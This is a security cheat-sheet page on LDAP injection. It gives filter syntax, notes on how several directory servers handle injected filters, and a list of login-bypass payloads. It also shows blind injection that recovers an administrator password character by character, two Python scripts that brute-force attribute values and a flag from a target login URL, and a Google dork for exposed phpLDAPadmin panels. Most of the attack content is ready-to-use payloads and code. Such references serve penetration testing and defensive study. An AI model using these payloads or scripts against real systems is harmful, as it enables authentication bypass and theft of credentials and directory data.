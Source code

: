# LDAP Injection

## **LDAP**

LDAP Injection is an attack used to exploit web based applications that construct LDAP statements based on user input. When an application fails to properly sanitize user input, it's possible to modify LDAP statements using a local proxy.

**Ports 389 y 636**

{% file src="../.gitbook/assets/en-blackhat-europe-2008-ldap-injection-blind-ldap-injection.pdf" %}

**Filter** = \( filtercomp \)  
**Filtercomp** = and / or / not / item  
**And** = & filterlist  
**Or** = \|filterlist  
**Not** = ! filter  
**Filterlist** = 1\*filter  
**Item**= simple / present / substring  
**Simple** = attr filtertype assertionvalue  
**Filtertype** =   _'='  /  '~=' / '&gt;=' / '&lt;='_  
**Present** = attr = \*  
**Substring** = attr ”=” \[initial\] \* \[final\]  
**Initial** = assertionvalue  
**Final** = assertionvalue  
**\(&\)** = Absolute TRUE  
**\(\|\)** = Absolute FALSE

For example:  
\(&\(!\(objectClass=Impresoras\)\)\(uid=s\*\)\)  
\(&\(objectClass=user\)\(uid=\*\)\)

You can access to the database, and this can content information of a lot of different types.

The backups of LDAP uses the extension _ldif_

**OpenLDAP**: If 2 filters arrive, only executes the first one.  
**ADAM or Microsoft LDS**: With 2 filters they throw an error.  
**SunOne Directory Server 5.0**: Execute both filters.

**It is very important to send the filter with correct syntax or an error will be thrown. It is better to send only 1 filter.**

The filter has to start with: _&_ or _\|_  
Example: _\(&\(directory=val1\)\(folder=public\)\)_

\(&\(objectClass=VALUE1\)\(type=Epson\*\)\)  
VALUE1 = _\*\)\(ObjectClass=\*\)\)\(&\(objectClass=void_

Then: _\(&\(objectClass=**\*\)\(ObjectClass=\*\)\)**_ will be the first filter \(the one executed\).

## Login Bypass

LDAP supports several formats to store the password: clear, md5, smd5, sh1, ssha, crypt. So, it could be that independently of what you insert inside the password, it is hashed.

```bash
user=*
password=*
--> (&(user=*)(password=*))
# The asterisks are great in LDAPi
```

```bash
user=*)(&
password=*)(&
--> (&(user=*)(&)(password=*)(&))
```

```bash
user=*)(|(&
pass=pwd)
--> (&(user=*)(|(&)(pass=pwd))
```

```bash
user=*)(|(password=*
password=test)
--> (&(user=*)(|(password=*)(password=test))
```

```bash
user=*))%00
pass=any
--> (&(user=*))%00 --> Nothing more is executed
```

```bash
user=admin)(&)
password=pwd
--> (&(user=admin)(&))(password=pwd) #Can through an error
```

```bash
username = admin)(!(&(|
pass = any))
--> (&(uid= admin)(!(& (|) (webpassword=any)))) —> As (|) is FALSO then the user is admin and the password check is True.
```

```bash
username=*
password=*)(&
--> (&(user=*)(password=*)(&))
```

```bash
username=admin))(|(|
password=any
--> (&(uid=admin)) (| (|) (webpassword=any))
```

[LDAP\_FUZZ](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20injection/Intruders/LDAP_FUZZ.txt)  
[LDAP Attributes](https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/LDAP%20injection/Intruders/LDAP_attributes.txt)  
[LDAP\_authBypass](https://feelsec.info/wp-content/uploads/2018/11/LDAP_authBypass.txt)

## Blind LDAP Injection

You can iterate over the ascii letters, digits and symbols:

```bash
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
```

## Scripts

### **Discover valid LDAP fields**

LDAP objects **contains by default several attributes** that could be used to **save information**. You can try to **brute-force all of them to extract that info.** You can find a list of ****[**default LDAP attributes here**](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/LDAP%20Injection/Intruder/LDAP_attributes.txt)**.**

```python
#!/usr/bin/python3
import requests
import string
from time import sleep
import sys

proxy = { "http": "localhost:8080" }
url = "http://10.10.10.10/login.php"
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

attributes = ["c", "cn", "co", "commonName", "dc", "facsimileTelephoneNumber", "givenName", "gn", "homePhone", "id", "jpegPhoto", "l", "mail", "mobile", "name", "o", "objectClass", "ou", "owner", "pager", "password", "sn", "st", "surname", "uid", "username", "userPassword",]

for attribute in attributes: #Extract all attributes
    value = ""
    finish = False
    while not finish:
        for char in alphabet: #In each possition test each possible printable char
            query = f"*)({attribute}={value}{char}*"
            data = {'login':query, 'password':'bla'}
            r = requests.post(url, data=data, proxies=proxy)
            sys.stdout.write(f"\r{attribute}: {value}{char}")
            #sleep(0.5) #Avoid brute-force bans
            if "Cannot login" in r.text:
                value += str(char)
                break
            
            if char == alphabet[-1]: #If last of all the chars, then, no more chars in the value
                finish = True
                print()
```

### **Special Blind LDAP Injection \(without "\*"\)**

```python
#!/usr/bin/python3

import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

flag = ""
for i in range(50):
    print("[i] Looking for number " + str(i))
    for char in alphabet:
        r = requests.get("http://ctf.web??action=dir&search=admin*)(password=" + flag + char)
        if ("TRUE CONDITION" in r.text):
            flag += char
            print("[+] Flag: " + flag)
            break
```

## Google Dorks

```bash
intitle:"phpLDAPadmin" inurl:cmd.php
```

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20injection)

